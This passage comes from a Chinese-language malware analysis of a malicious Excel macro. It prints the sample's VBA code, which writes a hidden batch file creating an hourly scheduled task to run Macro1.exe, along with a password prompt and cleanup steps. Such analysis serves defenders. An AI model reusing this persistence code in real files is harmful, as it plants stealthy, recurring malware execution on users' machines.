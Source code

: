 在 %serprofile% AppDataRoamingMicrosoftTemplates 目录生成 bat (cmd) 批处理脚本文件 Macro1.bat，

```
Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplates"

Dim User As String
User = Environ(Sh2.Cells(998, 40))
 Fname = Fnslr2 & "Macro1.bat"
FNum = FreeFile
Open Fname For Output Access Write As #FNum

WholeLine = "SchTasks /Create /SC HOURLY /TN " & Sh2.Cells(1000, 3) & "Macro1" & Sh2.Cells(1000, 3) & " /TR" & " " & User & "AppDataRoamingMicrosoftTemplates" & "Macro1.exe /ST 01:00"
 Print #FNum, WholeLine
Close #FNum

Dim TempFileName As String
TempFileName = Fnslr2 & "Macro1.bat"
Shell TempFileName, vbHide

```

尾部使用 Shell 函数 启动该脚本，结果是在用户机器创建了一个计划任务， 每隔一小时运行一次 上面生成的 Macro1.exe 。

![p9](http://drops.javaweb.org/uploads/images/bbf4f81d8638afb16bb3a5cd8bae16337bcb7c99.jpg)

### 6、弹窗显示输入密码才能继续进行运行

```
pword = InputBox("Please enter a password to proceed", "Password Required", "*******")
  Select Case pword
  Case Is = ""
   MsgBox "Try Again"
    Case "Alon2016"
      RP = 1

     Case Is <> "Alon2016"
         MsgBox "Try Again"
  End Select

```

![p10](http://drops.javaweb.org/uploads/images/9a9f9913fdb014623da6dbf43a58a5e8f3b6704a.jpg)

从病毒代码中知道，要求输入的密码是 “Alon2016” 。

### 7、

接下来是现场清理和掩饰，删除调用Build 函数在表格生成的数据，在表格的开头显著位置填入在其他表格中保存的邮件收件人地址信息，

![p11](http://drops.javaweb.org/uploads/images/2204ee772724dc6de6a2d467967c1311c22301d7.jpg)

小结：该样本的特别之处有：
